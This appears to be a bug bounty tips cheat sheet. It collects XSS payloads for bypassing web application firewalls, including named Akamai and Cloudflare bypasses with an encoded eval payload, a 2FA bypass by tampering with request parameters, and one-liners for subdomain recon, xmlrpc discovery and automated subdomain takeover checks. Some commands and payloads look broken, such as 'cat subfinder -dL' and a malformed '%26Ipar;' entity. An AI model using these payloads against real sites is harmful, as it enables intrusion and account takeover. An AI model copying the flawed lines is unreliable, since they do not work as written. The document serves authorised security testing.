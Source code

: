 # Bug Bounty Tips File -2
## XSS Firewall Bypass Techniques
1. Check if firewall is blocking only lowercases
```js
<sCRipT>alert(1)</sCRiPt>
```
2. Try to break firewall regex with new line (\r\n)
```js
<script>%0aalert(1)</script>
```
3. Try double encoding
`%2522`
4. Testing for recursive filters, if firewall removes text in red, we will have clear payload
```js
<scr<script>ipt<alert(1);</scr<script>ipt>
```
5. Injecting anchor tag without whitespaces
```js
<a/href="j&Tab;a&Tab;v&Tab;asc&Tab;ri&Tab;pi&Tab;pt&Tab;alert&lpar;1&rpar;">
```
6. Try to Bypass whitespaces using Bullet
```js
<svg•onload=alert(1)>
```
7. Try to chnage the Request Method
```js
GET /?a=xss

POST /?a=xss
```
**New Payload to Bypass WAF**
```js
<script>alert?.(document?.domain)</script>
```
## Find xmlrpc in single shot
```sh
cat domain.txt | assetfinder --subs-only | httprobe | while read url; do xml=$(curl -s -L $url/xmlrpc.php | grep 'XML-RPC');echo -e "$url -> $xml";done | grep 'XML-RPC' | sort -u
```
## Bypass Multifactor Authentication
1. Notice both the request while login when 2FA is enabled and disabled
2. While 2FA is Disabled :
**Request**
```json
{"email":"abc@mail.com","pass":"password","mfa":null,"code":""}
```
**Response**
```json
Location : https://abc.com/user/dashboard 
```
3. While 2FA is Enabled :
**Resuest**
```json
{"email":"abc@mail.com","pass":"password","mfa":true,"code":""}
```
**Response**
```json
Location : https://abc.com/v1/proxy/authentication/authenticate
```
4. Tamper the Parameter and change the "mfa":null and "code":"" to disable the 2FA
```json
Location : https://abc.com/user/dashboard
```
## DOM XSS
![dom-xss](/Writeups/Bug-Bounty-Tips/img/20201007_195906.jpg)
## WAF Bypass 
![waf-bypass](/Writeups/Bug-Bounty-Tips/img/waf-bypass.jpg)
## Automate Subdomain Takeover
```sh
cat subfinder -dL domain.txt -o sub.txt && subjack -w sub.txt |toslack
```
***Put it on cron to run once a day***
## Akami WAF Bypass
Reflection in "a" tag, attribute context:
```
< => allowed
<anything> => access denied
quotes => allowed
onanything= => access denied
/ or \ or eval() => access denied
```
**Bypass**
```js
"<>onauxclick<>=(eval)(atob('YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=='))>+<sss
```
## Find Reflected XSS
1. subfinder + httprobe
```sh
subfinder -d abc.com | httprobe -c 100 > target.txt
cat target.txt | waybackurls | gf xss | kxss
```
2. Check the URL which have all the special characters unfiltered and the paramater was callback=
3. Check Portswigger XSS CheatSheet for more information.
## XSS Cloudflare Bypass
```js
<x/onpointerRawupdate=confirm%26Ipar;1)//x
```


